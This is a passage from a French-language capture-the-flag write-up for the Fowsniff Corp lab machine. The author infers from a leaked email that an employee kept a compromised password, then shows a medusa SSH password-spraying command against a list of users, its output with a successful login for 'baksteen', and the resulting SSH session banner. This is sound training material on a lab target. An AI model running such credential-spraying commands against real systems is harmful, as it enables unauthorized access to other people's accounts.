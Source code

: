 Ce message fourmille de petits détails : toujours daté du 13 mars 2018, il s'agit d'un mail rédigé par Skyler Baksteen à Devin Seina. Notre pauvre A.J Stone a reçu une volée de bois vert de la part du directeur régional ; son nom n'est pas cité mais au vu de la description qu'en fait Baksteen, il s'agit sûrement du [Capitaine Haddock](https://fr.wikipedia.org/wiki/Vocabulaire_du_capitaine_Haddock). On y apprend également que Seina a contracté une pneumonie lors d'une excursion en camping, la semaine précédente, et est absent depuis.

D'un point de vue chronologique, cette information est très intéressante : en effet, étant probablement cloué au lit et respectueux du [droit à la déconnexion](https://en.wikipedia.org/wiki/Right_to_disconnect), Seina n'a pas eu vent de l'incident de sécurité et n'a pas encore eu l'occasion de modifier son mot de passe de boîte mail, CQFD.

Enfin, Baksteen indique se sentir fébrile, et préfère éviter d'accentuer sa migraine en lisant le mail de Stone, reçu quelques minutes plus tôt. Se pourrait-il que Baksteen soit lui aussi tombé malade, et n'ait pas pris soin de modifier son mot de passe SSH, tel que préconisé par A.J Stone ?

```console
root@blinils:~# medusa -h 192.168.56.101 -U fowsniff.users -p S1ck3nBluff+secureshell -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mustikka (2 of 8, 1 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: tegel (3 of 8, 2 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: baksteen (4 of 8, 3 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.101 User: baksteen Password: S1ck3nBluff+secureshell [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: seina (5 of 8, 4 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mursten (6 of 8, 5 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: parede (7 of 8, 6 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
```

Bingo.

```console
root@blinils:~# ssh baksteen@192.168.56.101
baksteen@192.168.56.101's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
```